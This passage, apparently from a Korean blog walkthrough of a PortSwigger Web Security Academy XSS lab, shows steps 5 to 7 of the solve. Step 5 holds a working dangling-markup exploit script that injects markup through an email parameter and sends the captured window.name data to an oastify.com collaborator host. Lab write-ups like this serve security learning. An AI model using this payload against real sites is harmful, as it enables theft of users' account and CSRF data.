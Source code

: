 
5. 실제 값을 넣어서 exploit 을 준비한다. 

```html
<script>
if(window.name) {
    new Image().src='//em4vfgeowcnct66zgv2o3nbfl6rxfo3d.oastify.com?'+encodeURIComponent(window.name);
} else {
    location = 'https://0a2d00180490d87480e903bb008700ba.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0a16007004dad8fa802102cb013600f5.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

6. 저장 후에 Deliver exploit to victim을 클릭한다. 

![](/images/burp-academy-xss-30-5.png)

7. Burp Collaborator 탭을 보면 아무런 요청이 없는 것을 알 수 있다. 방화벽에 막혔는지도 모른다. 다른 네트워크에서 시도해보자. 


